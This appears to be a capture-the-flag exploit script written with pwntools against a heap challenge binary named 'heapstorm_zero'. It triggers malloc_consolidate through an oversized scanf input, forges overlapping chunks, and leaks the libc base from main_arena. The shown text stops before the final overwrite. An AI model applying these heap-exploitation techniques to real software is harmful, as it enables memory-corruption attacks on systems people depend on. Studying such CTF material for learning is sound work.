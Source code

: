 ```python
from pwn import *

p=process('./heapstorm_zero')
elf=ELF('./libc64.so')
DEBUG=1

one_gadget=0x4526a

if DEBUG:
    context.log_level=True

sd=lambda x:p.send(x)
sl=lambda x:p.sendline(x)
sla=lambda a,x:p.sendlineafter(a,x)
rv=lambda x:p.recvuntil(x)

def add(size,content=''):
    sla('Choice:','1')
    sla('size:',str(size))
    sla('content:',content)
    
def view(index):
    sla('Choice:','2')
    sla('index:',str(index))

def dele(index):
    sla('Choice:','3')
    sla('index: ',str(index))

def scanf_consli():
    sla('Choice:','3'*0x500)

add(0x20)
for i in range(20):
    add(0x30)   # 1-20

dele(0)
for i in range(4,10):
    dele(i)

scanf_consli()

add(0x38,'a'*0x30+p64(0x120))   # 0
add(0x38,'a'*0x30+p32(0x40))    # 4
add(0x38)                       # 5
add(0x38)                       # 6
add(0x28)                       # 7
add(0x28)                       # 8

dele(7)
dele(4)
scanf_consli()
dele(10)
scanf_consli()

add(0x38)   # 4

# 5 fd and main_arena is overlapped
view(5)
rv('Content: ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4b78
log.info('libc base is :'+hex(libc_base))

```